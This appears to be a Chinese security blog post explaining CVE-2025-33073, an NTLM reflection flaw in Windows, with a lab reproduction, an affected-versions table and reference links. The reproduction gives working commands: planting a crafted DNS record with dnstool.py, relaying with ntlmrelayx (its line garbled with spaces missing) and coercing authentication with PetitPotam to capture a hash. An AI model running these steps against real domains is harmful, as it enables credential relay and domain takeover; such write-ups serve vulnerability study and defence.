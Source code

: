 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzAxNzkyOTgxMw==&mid=2247494380&idx=1&sn=66151c9843ee0ce1f076c7129e9fa929

#  域大杀器 CVE-2025-33073 NTLM反射  
 哈拉少安全小队   2025-06-16 05:54  
  
#   
## CVE-2025-33073  
### 本地 NTLM 身份验证  
  
NTLM 本地身份验证  
是 NTLM 身份验证的一种特殊情况正常 NTLM 认证是三个阶段  
1. NEGOTIATE  
  
1. CHALLENGE  
  
1. AUTHENTICATE，  
  
如果客户端和服务器被判定为“本地调用”，服务器在 CHALLENGE 阶段就指示客户端无需计算 NTLM 响应，而是直接将 当前令牌（如 SYSTEM）传给服务器使用。  
> 关键标志位是：NTLMSSP_NEGOTIATE_LOCAL_CALL (0x4000)  
> 被放在 NTLM_CHALLENGE 消息中，提示客户端走本地身份验证流程。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UENC9icl022rFZd6ZeicZnWI5Pr3RYU20lm5zHLHYICRNxNzOEfbJF1ibeQXrchhoibG4L8dzwT1z37hzu0d8P3obg/640?wx_fmt=png&from=appmsg "")  
  
当服务器判断“你连的是本地机器”时，它会启用一个特殊机制来省略加密计算，直接共享进程令牌，流程变为：  
1. 客户端发送 NEGOTIATE  
  
➜ 包含工作站名和域名，服务器一看：咦？你是我自己！  
  
1. 服务器返回 CHALLENGE  
  
设置   

```
NTLMSSP_NEGOTIATE_LOCAL_CALL
```

  
  
 附带一个“上下文 ID”，用来代表我在本机 lsass 进程中建了一个 context。  
  
1. 客户端一看是本地调用  
  
 它就不计算 NTLM 响应，而是：  
  
把自己当前的 Token（例如 SYSTEM）加入服务器那个上下文中  
  
1. 客户端发回 AUTHENTICATE（几乎是空的！）  
  
➜ 不包含加密回应，只带一个 ID，告诉服务器：我已经把 Token 放到你那儿了。  
  
1. 服务器拿着 Token 开始模拟进行操作  
  
### 漏洞复现  
  
<table><thead><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;"><th style="box-sizing: border-box;padding: 5px 10px;border: 1px solid rgb(204, 204, 204);font-size: 1rem;text-align: left;font-weight: bold;background-color: rgb(240, 240, 240);"><span cid="n53" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 440.828125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">IP</span></span></span></th><th style="box-sizing: border-box;padding: 5px 10px;border: 1px solid rgb(204, 204, 204);font-size: 1rem;text-align: left;font-weight: bold;background-color: rgb(240, 240, 240);"><span cid="n54" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 133.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">系统</span></span></span></th><th style="box-sizing: border-box;padding: 5px 10px;border: 1px solid rgb(204, 204, 204);font-size: 1rem;text-align: left;font-weight: bold;background-color: rgb(240, 240, 240);"><span cid="n55" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 201.875px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">说明</span></span></span></th></tr></thead><tbody><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;"><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n57" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 440.828125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">10.211.55.8</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n58" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 133.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">kali</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n59" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 201.875px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">攻击机</span></span></span></td></tr><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);"><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n61" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 440.828125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">10.211.55.33（</span></span><span md-inline="link" style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">srv.redteam.com</span></span></span><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">）</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n62" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 133.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">Win2016</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n63" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 201.875px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">目标机器</span></span></span></td></tr><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;"><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n65" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 440.828125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">10.211.55.34 (</span></span><span md-inline="link" style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">dc.redteam.com</span></span></span><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">)</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n66" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 133.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">Win2016</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n67" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 201.875px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">DNS、DC机器</span></span></span></td></tr></tbody></table>  
添加恶意dns解析  

```
python3 dnstool.py -u 'redteam\john' -p 'user@123' 10.211.55.33 -a add -r srv1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d 10.211.55.8
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/UENC9icl022rFZd6ZeicZnWI5Pr3RYU20lYqT08YwWXCtTP764TyNRaibeUcFc4vkhEomWjwUe3jZ8txicyTNpQTzw/640?wx_fmt=png&from=appmsg "")  
  
监听请求  

```
impacket-ntlmrelayx-tsrv.redteam.com-smb2support
```


```

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/UENC9icl022rFZd6ZeicZnWI5Pr3RYU20lcWiaICE5h6OVXgnXIYsK6AocGtOOjZL1icl9d4eckwKI5RiaWRmjQonvg/640?wx_fmt=png&from=appmsg "")  
  
  
触发强制连接  

```
python3 PetitPotam.py -u john -p 'user@123' -d redteam.com srv1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA srv.redteam.com         
```

  
成功触发获取hash  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UENC9icl022rFZd6ZeicZnWI5Pr3RYU20lqIqfdPwxQCoZR9ics5gIe41mkeEOh2eLbHibbmfjODibk8joxlibjib0wYg/640?wx_fmt=png&from=appmsg "")  
  
### 漏洞影响范围  
  
<table><thead><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;"><th style="box-sizing: border-box;padding: 5px 10px;border: 1px solid rgb(204, 204, 204);font-size: 1rem;text-align: left;font-weight: bold;background-color: rgb(240, 240, 240);"><span cid="n82" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 231.171875px;min-height: 10px;"><span md-inline="strong" style="box-sizing: border-box;"><strong style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">操作系统/版本</span></span></strong></span></span></th><th style="box-sizing: border-box;padding: 5px 10px;border: 1px solid rgb(204, 204, 204);font-size: 1rem;text-align: left;font-weight: bold;background-color: rgb(240, 240, 240);"><span cid="n83" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 68.515625px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">是否受影响</span></span></span></th><th style="box-sizing: border-box;padding: 5px 10px;border: 1px solid rgb(204, 204, 204);font-size: 1rem;text-align: left;font-weight: bold;background-color: rgb(240, 240, 240);"><span cid="n84" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 476.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">说明</span></span></span></th></tr></thead><tbody><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;"><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n86" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 231.171875px;min-height: 10px;"><span md-inline="strong" style="box-sizing: border-box;"><strong style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">Windows 11（22H2、23H2、24H2）</span></span></strong></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n87" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 68.515625px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">❌ 没有</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n88" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 476.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">默认情况下得到缓解；MS-EFSRPC 得到强化并且 NTLM 的使用受到限制。</span></span></span></td></tr><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);"><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n90" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 231.171875px;min-height: 10px;"><span md-inline="strong" style="box-sizing: border-box;"><strong style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">Windows Server 2025（预览版）</span></span></strong></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n91" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 68.515625px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">❌ 没有</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n92" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 476.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">最新版本默认已阻止强制执行。</span></span></span></td></tr><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;"><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n94" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 231.171875px;min-height: 10px;"><span md-inline="strong" style="box-sizing: border-box;"><strong style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">Windows Server 2022</span></span></strong></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n95" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 68.515625px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">❌ 没有</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n96" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 476.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">发布前已修补；默认情况下缓解 MS-EFSRPC。</span></span></span></td></tr><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);"><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n98" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 231.171875px;min-height: 10px;"><span md-inline="strong" style="box-sizing: border-box;"><strong style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">Windows 服务器 2019</span></span></strong></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n99" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 68.515625px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">✅ 是的</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n100" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 476.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">除非完全修补并配置 NTLM 限制，否则仍然有效。</span></span></span></td></tr><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;"><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n102" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 231.171875px;min-height: 10px;"><span md-inline="strong" style="box-sizing: border-box;"><strong style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">Windows 服务器 2016</span></span></strong></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n103" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 68.515625px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">✅ 是的</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n104" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 476.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">MS-EFSRPC 接口仍然可用；默认允许 NTLM。</span></span></span></td></tr><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);"><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n106" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 231.171875px;min-height: 10px;"><span md-inline="strong" style="box-sizing: border-box;"><strong style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">Windows Server 2012 R2</span></span></strong></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n107" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 68.515625px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">✅ 是的</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n108" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 476.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">强制开箱即用；需要手动强化。</span></span></span></td></tr><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;"><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n110" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 231.171875px;min-height: 10px;"><span md-inline="strong" style="box-sizing: border-box;"><strong style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">Windows Server 2008 R2</span></span></strong></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n111" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 68.515625px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">✅ 是的</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n112" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 476.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">如果未修补则完全容易受到攻击；没有默认缓解措施。</span></span></span></td></tr><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);"><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n114" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 231.171875px;min-height: 10px;"><span md-inline="strong" style="box-sizing: border-box;"><strong style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">Windows 10（最高至 21H2）</span></span></strong></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n115" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 68.515625px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">✅ 是的</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n116" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 476.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">除非修补，否则容易受到攻击；如果启用了 NTLM，EFSRPC 强制就会起作用。</span></span></span></td></tr></tbody></table>### 参考连接  
  
https://www.synacktiv.com/publications/ntlm-reflection-is-dead-long-live-ntlm-reflection-an-in-depth-analysis-of-cve-2025  
  
https://github.com/mverschu/CVE-2025-33073  
  
